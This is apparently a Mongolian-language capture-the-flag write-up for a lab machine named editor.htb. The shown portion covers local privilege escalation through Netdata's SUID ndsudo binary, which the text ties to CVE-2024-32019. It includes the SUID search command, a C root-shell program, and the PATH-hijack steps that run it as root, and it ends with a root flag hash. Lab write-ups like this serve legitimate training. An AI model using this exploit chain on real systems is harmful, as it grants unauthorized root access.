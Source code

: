 cat user.txt



<img width="818" height="532" alt="Screenshot 2025-09-26 135843" src="https://github.com/user-attachments/assets/d98e6da2-7266-48e4-8f70-479254b4fb5f" />

Систем дээр privilege escalation боломжуудыг хайж байхдаа SUID биттэй файлуудыг шалгасан:

find / -type f -perm -4000 -user root 2>/dev/null


Үүний үр дүнд Netdata плагин болох дараах файл илэрсэн:

/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo


Энэ нь CVE-2024–32019-д эмзэг бөгөөд root-аар arbitrary код гүйцэтгэх боломж олгодог.

Эксплойт хийх

Өөрийн локал машин дээр энгийн C эксплойт бэлтгэсэн:

exploit.c агуулга:

#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}


Компиляц:

gcc exploit.c -o nvme


Binary-г target руу шилжүүлэв:

scp nvme oliver@editor.htb:/tmp

<img width="634" height="361" alt="Screenshot 2025-09-26 142201" src="https://github.com/user-attachments/assets/3584992f-b40c-4ad2-a623-818e5b71ea00" />

Тarget дээр гүйцэтгэх

Тarget дээр дараах алхмуудыг хийж, эксплойтийг ажиллуулсан:

cd /tmp
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list

Root нэвтрэлт & Flag

cat /root/root.txt
# Output: 6d4d6c2368c3210994e624647c93119f







